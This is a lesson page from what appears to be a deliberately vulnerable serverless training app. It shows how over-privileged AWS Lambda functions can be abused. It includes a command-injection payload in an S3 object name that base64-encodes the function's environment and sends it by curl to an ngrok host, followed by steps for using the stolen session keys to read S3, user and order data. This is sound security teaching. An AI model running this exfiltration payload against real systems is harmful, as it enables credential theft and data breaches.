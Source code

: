 # LESSON #7: Over-Privileged Function

Maybe one of the most fundamental security vulnerabilities in serverless applicaiton are over-privileged functions. [Previous research](https://www.protego.io/protego-labs-finds-nearly-all-serverless-application-functions-at-risk/) has found that almost all functions are configured with more permissions than what they actually need.

Let's see what we can do with that:

We already saw that one of the functions is vulnerable to command injection through an [insecure s3 configuration](../LESSONS/LESSON_04.md), so we can leverage that and steal the function's keys. By stealing the keys (AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY and AWS_ACCESS_KEY_ID), we will be able to assume the function's temporary execution role.

```
aws s3 cp ~/empty 's3://dvsa-receipts-bucket/2020/20/20/null_;b=`env|base64 --wrap=0`;curl 0c971764.ngrok.io?data=$b;echo x.raw' --profile hacker
```

It's not hard to find the relevant keys in the base64 string that we got:

![alt base64-keys](https://i.imgur.com/ig8iV2J.png)

Decoding them (```echo <BASE64> | base64 --decode```) will reveal (partial info):
```
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
AWS_SESSION_TOKEN=FQXXXXXXXXXXXXXXXPJnxYa8D85UCLwAXXXXXXXXXXXXXXXRUkQWDwu4NMqrE+dcRXXXXXXXXXXXXXXXrTB6PxZzyfw0pDFUJHXXXXXXXXXXXXXXXAFfF6kR5AjFSQd/SkjymXXXXXXXXXXXXXXXO+1JfHtJBFqwI7VnaHMcCoDp4O/WcXXXXXXXXXXXXXXXCNW886DrHxciDCXXXXXXXXXXXXXXXZt3k9f3WuwI/FfXXXXXXXXXXXXXXXp43gtQYe3IV1sCpPs/kUneXXXXXXXXXXXXXXXiZGU63V79bpu/Dt3fzO0eSHAO6ii4t9/gBQ==
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/DVSA-SEND-RECEIPT-EMAIL
LAMBDA_TASK_ROOT=/var/task
LD_LIBRARY_PATH=/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
AWS_LAMBDA_LOG_STREAM_NAME=2018/12/23/[$LATEST]ce7961b403ba4b47806460db4bc62944
AWS_EXECUTION_ENV=AWS_Lambda_python2.7
AWS_LAMBDA_FUNCTION_NAME=DVSA-SEND-RECEIPT-EMAIL
PATH=/usr/local/bin:/usr/bin/:/bin:/opt/bin
SOURCE_EMAIL=tal+dvsa+noreply@protego.io
AWS_DEFAULT_REGION=us-east-1
PWD=/var/task
AWS_SECRET_ACCESS_KEY=xxxxxxxxxxxxxxxI8g7+XkMv/6tuC7xxxxxxxxxx
LAMBDA_RUNTIME_DIR=/var/runtime
LANG=en_US.UTF-8
AWS_REGION=us-east-1
ORDERS_TABLE=DVSA-ORDERS-DB
AWS_ACCESS_KEY_ID=ASIAYXXXXXXXXXXXXXXX
PYTHONPATH=/var/runtime
_HANDLER=lambda_function.lambda_handler
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=256
```
Let's copy the relevant data into environment variables:
```
export AWS_SECRET_ACCESS_KEY = "..."
export AWS_ACCESS_KEY_ID = "..."
export AWS_SESSION_TOKEN = "..."
```

Or, into our AWS credentials - ~/.aws/credentials (which is my preferit):
![alt stolen-keys](https://i.imgur.com/tFXFZEj.png)

By default, temporary security credentials for an IAM user are valid for a maximum of 12 hours (and therefore, long gone in the screenshot). In this time frame, we can use these keys to run any AWS command that is aligned with the functions permissions. Since the function is (way) over-privileged, we can start stealing sensitive data and performing actions on the account.

For example:

(1) lisitng all files on s3:
![alt ls-bucket](https://i.imgur.com/Cg8cBYs.png)

(2) downloading a file from the bucket:
![alt download-receipt](https://i.imgur.com/3hMxfZP.png)

We can of course, also delete files. But, we are not limited to the S3! Let's explore further:

(3) leaking all users:
![alt leak-users](https://i.imgur.com/JVkreVB.png)

(4) orders from dynamodb:
![alt leak-orders](https://i.imgur.com/WdBSzVG.png)

And many more. I'll leave that to you to explore.

- - -
[ToC](../LESSONS/README.md) | [1](../LESSONS/LESSON_01.md) | [2](../LESSONS/LESSON_02.md) | [3](../LESSONS/LESSON_03.md) | [4](../LESSONS/LESSON_04.md) | [5](../LESSONS/LESSON_05.md) | [6](../LESSONS/LESSON_06.md) | [7](../LESSONS/LESSON_07.md) | [8](../LESSONS/LESSON_08.md) | [9](../LESSONS/LESSON_09.md) | [10](../LESSONS/LESSON_10.md)

